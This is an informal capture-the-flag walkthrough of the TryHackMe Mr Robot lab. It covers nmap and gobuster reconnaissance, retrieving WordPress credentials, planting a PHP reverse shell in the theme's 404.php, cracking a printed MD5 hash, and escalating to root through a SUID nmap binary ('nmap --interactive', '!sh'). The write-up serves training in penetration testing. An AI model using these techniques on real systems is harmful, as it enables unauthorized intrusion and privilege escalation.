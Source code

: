 # TryHackMe: Mr_Robot

---

By: *UnknownPerson*

---

nmap -sC -sV -Pn -vv {IP}

## Port Scanning: {80,443}
```plaintext

Let's do some directory Buster using :- 
> gobutster dir -u http://{ip} -w {Wordlist Location}

Form this we get one of key from robots.txt site map :- 

```
Key1 :- key-1-of-3.txt :- 07340---a58a1f80d9///55fb3***4b9
--

```
And we get so may Directory from that /licence Is intresting from this 
Source code we get credetial 
```

Credential Of Wp-login :- el***t:E-2\\***2
--

## Intial Access

```
Now we get Intial Access on Wp-login wordpress site Let's Get revshell from simple Way 

> We got appearance > editor > 404.php 
> in this we add out Pentestmoneky php reverse shell code then awake the 404 error code on site And we get Intial Access
> Throw in /home/robot we get password encrypted file :- "password.raw-md5" throw this we get our Password for robot user
robot:c3fcd3d76192e4007dfb496cca67e13b
```
## Privillage Escallation

```
Let's first find SUID bit 
using :- find / -user root -perm -4000 -print 2>/dev/null

We get intresting binary og nmap let' get root sh tetminal throw this
```
/usr/local/bin/nmap --interactive
!sh
--

*Wow We get Root Shell And Access in key-2-of-3.txt from /home/robot and key3-of-3.key from /root*

As this way we agin Pawned New machine
--